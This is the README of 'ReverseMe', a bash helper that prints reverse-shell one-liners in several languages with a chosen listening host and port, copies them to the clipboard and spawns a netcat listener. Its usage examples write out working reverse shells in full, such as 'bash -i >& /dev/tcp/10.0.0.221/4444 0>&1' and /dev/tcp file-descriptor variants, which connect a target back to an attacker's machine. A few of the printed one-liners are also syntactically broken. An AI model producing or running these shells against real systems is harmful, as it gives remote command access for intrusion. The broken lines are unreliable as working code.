 # ReverseMe
Easily display reverse shells in different languages with the listening host and listening port already built into the syntax.

## Installation
By default, *reverseme* is set to install in your home directory. \
Using your favorite text editor, change the username for the USER variable. \
Also change the directory path for the DIRECTORY variable. **Use absolute path names. It just makes it easier.** \
*reverseme* uses \.bash_aliases to add the alais for *reverseme*. \
*reversme* will source the bash_completion file automatically to your \.bashrc file.

##### What if I want to use something different than .bashrc or .bash_aliases?
You will need to use your favorite text editor and edit the variables ALIAS_FILE and SOURCE_FILE. \
**Otherwise, leave them alone.**

##### What if I move *reverseme* after I run the install.sh script?
If at anytime you move *reverseme* after running install.sh, you will need to edit your \.bashrc, \.bash_aliases, and the absolute sourced path of *shells.sh* in *main.sh* file, using your favorite text editor.

#### To install:
```
git clone https://github.com/DFC302/reverseme.git
cd reverseme/
bash install.sh
cd
source ~/.bashrc
```
**Right now, *reverseme's* *install.sh* script is set to work on Debian\Ubuntu related distbutions.**

## Usage
**Important Note:** \
The reverse shells are stored in a separate file wrapped in functions. Because of this, all other options must be called FIRST before you call the language option of your choice. Below are some simple example usages.

### Basic usage:
```
reverseme --lport 4444 --lhost 10.0.0.221 --langs bash
```

#### Result:
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done
```

### Save shell to clipboard"
```
reverseme --lhost 10.0.0.221 --lport 4444 --save --langs bash
```

**If there is more than one reverse shell available, *reverseme* will ask you to select which one. Whatever option you choose will automatically be saved to your clipboard.**.

#### Result
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done

Selection [1-4]: 2
```

### List supported languages
```
reverseme --list
```
#### Result:
```
Supported languages:
	bash
	awk
	perl
	python
	php
	ruby
	netcat
	telnet
	socat
	java
```
### Spawn listener
```
reverseme --lport 4444 --listener gnome
```
**--OR--**
```
reverseme --lhost 10.0.0.221 --lport 4444 [optional: --save] --listener gnome --langs bash
```
This will spawn a new terminal using netcat to listen on the given lport.

### Spawn version/email/title information
```
reverseme --version
```
#### Result:
```
	________                                    ______  ___     
	___  __ \_______   ____________________________   |/  /____ 
	__  /_/ /  _ \_ | / /  _ \_  ___/_  ___/  _ \_  /|_/ /_  _ \
	_  _, _//  __/_ |/ //  __/  /   _(__  )/  __/  /  / / /  __/
	/_/ |_| \___/_____/ \___//_/    /____/ \___//_/  /_/  \___/                                                               

	
		Written by: Matthew Greer
		Github: https://github.com/DFC302
		HTB Profile: https://www.hackthebox.eu/profile/17842
		Email: pydev302@gmail.com
		Version: 2.0.0


```


### Help Menu
```
reverseme - A quick reference script that can easily display reverse shells for different languages.
Version: 2.0.0

Usage: reverseme --[options]
Example usage: reverseme --lhost 10.0.0.2 --lport 4444 --langs perl linux
Warning: lport and lhost both needed FIRST to display reverse shells correctly!
	WRONG: reverseme --langs bash --lhost 10.0.0.2 --lport 4444
	CORRECT: reverseme --lhost 10.0.0.2 || lport 4444 --langs bash

--help			Displays this help menu and exits.
--version		Displays version and title information.
--list			List avaialble languages supported.
--save			Save reverse shell to clipboard.
--lport=[port]		Provide a listening port.
--lhost=[IP]		Provide a listening host.

--listener=[ENV]	Spawn a listener on a specfic lport.
				gnome
				xfce
				Example: --lport 4444 --listener gnome

--langs=[lang]	Language reverse shell is written in.
			bash
			awk
			perl [OPTIONAL] linux || windows
			python [PROTOCOL] tcp || udp || stcp
			php
			ruby [OPTIONAL] linux || windows
			netcat
			telnet
			socat
			java

```

### Common errors?
#### When I use the --save flag, I get an error: *error cant open display*.
This usually happens systems without a GUI. You can check out the following [help](https://askubuntu.com/questions/305654/xclip-on-headless-server) to see if you can find a solution.

#### *reverseme* tells me that I need the lhost and/or lport first, when I use the --langs flag before those flags.
This is because each language is stored in a function in anothr bash file. Essentially, main.sh is calling the function that holds the reverse shells of the language you have chosen. If you call that function first, the rest of the flags are not taken into account as variables. Use the *--langs [lang]* as the last part of your syntax.

#### I am getting a *permission denied* when running *reverseme*.
I have seen this before on some of the test systems I have tested *reverseme* on. The easiest solution is to do this:
```
chmod -R 755 /reverseme
chown -R [user] /reverseme
chgrp -R [user] /reverseme
```
#### I ran the *install.sh* script, but I still cant use *reverseme* as an alias?
Using your favorite editor, open the \.bash_aliases file in your home directory. Make sure that the path to *reverseme's* *main.sh* file is correct.

#### *reverseme* tells me that it has no file named *shells.sh*
Using your favorite editor, open the *main.sh* file in *reverseme* directory. Edit line 4, where it is sourcing the *shells.sh* file and make sure the path is correct.

**Anything else. Email me.**


### Contributing?
I would be interested in more reverse shells that I can add to *reverseme* \
Or if you find this useful or it is helped you in anyway, you can always say thanks by buying me a coffee.

<a href="https://www.buymeacoffee.com/dfc302" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
